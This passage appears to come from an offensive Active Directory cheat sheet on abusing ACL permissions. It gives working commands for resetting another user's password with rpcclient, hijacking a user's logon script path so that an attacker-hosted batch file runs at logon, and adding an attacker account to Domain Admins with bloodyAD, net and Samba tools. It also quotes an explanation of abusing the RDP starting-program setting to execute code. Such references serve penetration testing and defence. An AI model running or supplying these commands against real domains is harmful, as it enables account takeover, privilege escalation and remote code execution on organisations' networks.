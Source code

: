* Linux only:

  ```ps1
  # Using rpcclient from the  Samba software suite
  rpcclient -U 'attacker_user%my_password' -W DOMAIN -c "setuserinfo2 target_user 23 target_newpwd" 
  ```

WriteProperty on an ObjectType, which in this particular case is Script-Path, allows the attacker to overwrite the logon script path of the delegate user, which means that the next time, when the user delegate logs on, their system will execute our malicious script :

* Windows/Linux:

  ```ps1
  bloodyAD --host 10.0.0.5 -d example.lab -u attacker -p 'Password123*' set object delegate scriptpath -v '\\10.0.0.5\totallyLegitScript.bat'
  ```

* Windows only:

  ```ps1
  Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.bat"
  ```

### Group

This ACE allows us to add ourselves to the Domain Admin group :

* Windows/Linux:

  ```ps1
  bloodyAD --host 10.10.10.10 -d example.lab -u hacker -p MyPassword123 add groupMember 'Domain Admins' hacker
  ```

* Windows only:

  ```ps1
  net group "domain admins" hacker /add /domain
  ```

* Linux only:

  ```ps1
  # Using the Samba software suite
  net rpc group ADDMEM "GROUP NAME" UserToAdd -U 'hacker%MyPassword123' -W DOMAIN -I [DC IP]
  ```

### GenericWrite and Remote Connection Manager

> Now let’s say you are in an Active Directory environment that still actively uses a Windows Server version that has RCM enabled, or that you are able to enable RCM on a compromised RDSH, what can we actually do ? Well each user object in Active Directory has a tab called ‘Environment’.
>
> This tab includes settings that, among other things, can be used to change what program is started when a user connects over the Remote Desktop Protocol (RDP) to a TS/RDSH in place of the normal graphical environment. The settings in the ‘Starting program’ field basically function like a windows shortcut, allowing you to supply either a local or remote (UNC) path to an executable which is to be started upon connecting to the remote host. During the logon process these values will be queried by the RCM process and run whatever executable is defined. - "ACE to RCE" - @JustinPerdok - July 24, 2020
